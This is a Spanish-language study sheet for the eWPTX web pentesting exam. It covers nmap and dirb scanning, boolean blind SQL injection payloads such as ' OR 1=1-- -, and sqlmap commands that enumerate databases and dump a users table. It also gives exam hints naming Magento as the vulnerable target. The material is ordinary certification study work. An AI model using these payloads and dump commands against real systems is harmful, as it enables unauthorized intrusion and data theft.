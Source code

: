 # eWPTX
---
## Escaneo de puertos
![image](https://github.com/user-attachments/assets/02a7281d-02c7-43ec-afe6-ece2eecf0317)

nmap -n -Pn -p- --open -vvv -T5 [IP] 

## Enumeración
![image](https://github.com/user-attachments/assets/1d95388b-e208-4b30-8e2c-ad1943a44dee)

dirb http://172.17.0.2/ [rockyou, common, big] -N 401 (Ignora un método) -r (No es recursivo)
##
dirsearch -u http://[IP]/ -w [WORDLIST] -t 16 -e php,txt -f (NO ESTÁ DISPONIBLE EN EL EXAMEN)

---

## 💉 Inyección SQL (SQLi): Blind SQLi
En el examen: MAGENTO ES VULNERABLE A SQLi

En las inyecciones a ciegas, el resultado no se ve en la pantalla (son deductivas... a partir del comportamiento de la aplicación)
### BOOLEAN
Tiene un comportamiento verdadero o falso (0 o 1)

|User: |' OR 1=1-- -|
|----|-----|
|Pass: |' OR 1=1-- -|

|User: |' OR (substring(database(),1,1))='p' -- -|
|-------|-------------|
|Pass: |' OR (substring(database(),1,1))='p' -- -|

|User: |' OR (ascii(substring(database(),1,1)))='45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))='45' -- -|

|User: |' OR (ascii(substring(database(),1,1)))>'45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))>'45' -- -|

Se puede automatizar con el BurpSuite:

Intruder --> payloads (numero) --> 32-126 

settings --> Redirections (always)


---
### TIME
Tiempo de carga (¿Cuanto demora en carga una página web?)


### OOB
Si se puede lelvar la info fuera del servidor
## 

### SQLMAP
--technique=BTU

--risk=

1: Payload a nivel de select y uniones

2: Payload de tiempo. Por ejemplo SLEEP.

3: Payload basados en BOOLEAN en OR

--level=

1: inyecciones en metodos GET/POST

2: inyecciones en las cookies

3: inyecciones en los headers: user-agent, referer

4: inyecciones todos los headers

5: inyecciones en todos los parametros sin excepción

### Boolean

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 --current-db --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB --tables --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB -T usuarios --dump --dbms=mysql

### Time

- sqlmap -r request_time.txt -p descripción --technique=T --risk=3 --level=3 --current-db --dbms=mysql --flush-session

---

## ♟️ Estratégia
1. Iniciar por el CMS MAGENTO
